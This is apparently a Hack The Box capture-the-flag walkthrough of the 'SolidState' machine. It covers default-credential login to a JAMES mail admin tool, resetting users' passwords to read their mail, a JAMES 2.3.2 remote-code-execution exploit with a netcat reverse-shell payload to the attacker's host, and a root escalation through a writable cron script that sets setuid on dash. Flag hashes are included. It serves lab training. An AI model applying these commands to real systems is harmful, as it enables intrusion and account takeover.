solidstate

nmap
Note
ssh service OpenSSH 7.4p1 is running on port 22
smtp service JAMES smtpd 2.3.2 is running on port 25
tcp service Apache 2.4.25 is running on port 80
pop3 service JAMES pop3d 2.3.2 is running on port 110
nntp service JAMES nntpd is running on port 119
all ports
theres a service rsip running on port 4555
port 4555
doing an all-port scan reveals an intersting service on port 4555....Using default credentials root:root logs us in:
It appears RSIP service is connected to the server's POP service

JAMES REMOTE ADMIN TOOL 2.3.2

telnet
lets telnet to the rsip service withtelnet 10.10.10.51 4555


listusers
listusers gives us

setpassword
we'll reset mindy's password to view her emails withsetpassword <user> <password>

be sure to change the password for the other users so we can check their email as well
port 110 POP
We can log into the POP server using the credntials of the users we changed on the James admin tool
james/no emails

No emails from this account
thomas/no emails
mailadmin/no emails
john
email 1

mindy

email 1

email 2
P@55W0rd1!2@ for SSH
ssh mindy@10.10.10.51


Problem is we are in a restricted Bash (rbash) environment thanks to John so we'll have to escape it somehow...

We should search around to see if there are any exploits to James Admin 2.3,2 on google
User.txt

914d0a4ebc177889b5b89a23f556fd75
james apache server OSI
Lets use google


searchsploit
we have our exploitdb id of the exploit so lets take a look at it on our attack machine
35513.py is the same program from our google search, lets move it to our working directory:

we can also use
searchsploit -m /exploits/linux/remote/35513.py to copy the exploit
35513.py RCE
Put a reverse shell in the payload to connect back to our attack machine:payload = nc -e /bin/sh 10.10.10.62 8000

run

perfect.... just need to log in for our payload to run:
remember mindy's password from her emails were P@55W0rd1!2@

Reverse Shell

success! lets import a tty shell real fast and we're in business!
python -c ‘import pty;pty.spawn("/bin/bash")’

and implement tab autocomplete as well: (use fg for foreground)
ctrl+z to background
stty raw -echo for tab-autocomplete to work on our shell
fg to foreground

privesc
enumeration
Lets start with uploading LinEnum to the box: (or lse.sh if you prefer)
LinEnum
use wget to download LinEnum onto our victimwget 10.10.14.62:8001/LinEnum.sh

We find from the search there is a world-writeable file called tmp.py we can work with that is OWNED BY ROOT and executeable by anyone!

report
Specify -t for thorough scan!./LinEnum.sh -t


system

Users/Groups






Environmental



Jobs/Tasks





Networking






Services

Software
Interesting




/opt/temp.py
Checking out the contents of tmp.py
we see that touch is installed on the box to utilize:

we can rewrite tmp.py with the code:
#!/bin/bash
/usr/bin/touch tmp/st0ve
lets touch the file /tmp/st0ve in /opt/tmp.py to see if we can give the file root permissions:
/tmp/st0ve
we can see we created the file st0ve owned by root with touch program so we know the Cron is running

add sticky bit to DASH
we see that Dash is not sim-linked (symbolically linked) to bash on this box which means its a binaryindependent of bash, but more importantly...
DASH does NOT strip the setUID bit like bash does, so if we add setuid bits to DASH we can run it as though we were root!

rewriting chmod 4755 /bin/dash to tmp.py to put a sticky-bit on that dash binary as root

now simply run /bin/dash and we pop a shell with root privileges!
root.txt
b4c9723a28899b1c45db281d99cc87c9
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/